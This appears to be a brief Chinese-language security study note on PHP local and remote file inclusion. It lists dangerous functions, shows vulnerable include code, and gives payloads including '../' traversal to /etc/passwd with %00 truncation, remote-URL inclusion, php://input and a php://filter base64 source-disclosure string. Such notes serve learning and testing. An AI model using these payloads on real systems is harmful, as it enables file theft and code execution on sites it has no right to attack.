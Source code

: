 # File Inclusion
常見危險函式：  
PHP: ```include()```, ```include_once()```, ```require()```, ```require_once()```, ```fopen()```, ```readfile()```  
JSP: ```java.io.FileReader()```  
ASP: ```includefile```  
php包含一個文件，會將該文件內容當作php代碼執行，因此不受檔名類型影響。  

# Local File Inclusion
```php
$file = $_GET['file'];
include '/var/www/'.$file.'.php';
```
1. ```%00```截斷  
```php
// 用%00截斷後面的副檔名
file=../../../../../../../../etc/passwd%00
```
requirement: ```magic_quotes_gpc=off```, php < 5.3.4  
2. 長度截斷  

# Remote File Inclusion
```php
require_once $path."/hello/index.php";
```
1. 普通版 rfi  
```php
// 加個protocal
path = [http/https/ftp]://hello.com/.php
```
requirement: ```allow_url_fopen=On```, ```allow_url_include=On```  
2. ```php://input```  
requirement: ```allow_url_include=On```  
3. ```php://filter```  放大絕，爆源碼  
```php
php://filter/convert.base64-encode/resource=[file.php]
```
requirement: ```allow_url_include=On```  
4. ```data://text/plain```
